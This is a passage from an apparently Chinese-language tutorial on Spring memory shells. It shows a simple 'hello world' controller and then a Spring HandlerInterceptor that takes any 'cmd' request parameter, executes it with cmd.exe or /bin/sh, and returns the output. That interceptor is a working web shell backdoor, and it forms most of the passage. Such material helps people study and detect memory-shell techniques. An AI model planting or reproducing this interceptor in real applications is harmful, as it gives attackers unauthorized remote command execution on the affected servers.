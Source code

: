 ![](https://raw.githubusercontent.com/lslz627/PicGo/master/image-20240118011103790.png)

### [](#2-10-1-编写一个简单的Spring-Controller "2.10.1 编写一个简单的Spring Controller")2.10.1 编写一个简单的 Spring Controller

```
package org.example.springcontrollermemoryshellexample.demos.web;

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;

@Controller
public class TestController {
    @ResponseBody
    @RequestMapping("/")
    public String test(){
        return "hello world";
    }
}
```

非常地简单：

![](https://raw.githubusercontent.com/lslz627/PicGo/master/image-20240118011631123.png)

### [](#2-10-2-编写一个简单的Spring-Interceptor "2.10.2 编写一个简单的Spring Interceptor")2.10.2 编写一个简单的 Spring Interceptor

`TestInterceptor.java`：

```
package org.example.springcontrollermemoryshellexample.demos.web;

import org.springframework.web.servlet.handler.HandlerInterceptorAdapter;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

public class TestInterceptor extends HandlerInterceptorAdapter {
    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        String cmd = request.getParameter("cmd");
        if(cmd != null){
            try {
                java.io.PrintWriter writer = response.getWriter();
                String output = "";
                ProcessBuilder processBuilder;
                if(System.getProperty("os.name").toLowerCase().contains("win")){
                    processBuilder = new ProcessBuilder("cmd.exe", "/c", cmd);
                }else{
                    processBuilder = new ProcessBuilder("/bin/sh", "-c", cmd);
                }
                java.util.Scanner inputScanner = new java.util.Scanner(processBuilder.start().getInputStream()).useDelimiter("\\A");
                output = inputScanner.hasNext() ? inputScanner.next(): output;
                inputScanner.close();
                writer.write(output);
                writer.flush();
                writer.close();
            } catch (Exception ignored){}
            return false;
        }
        return true;
    }
```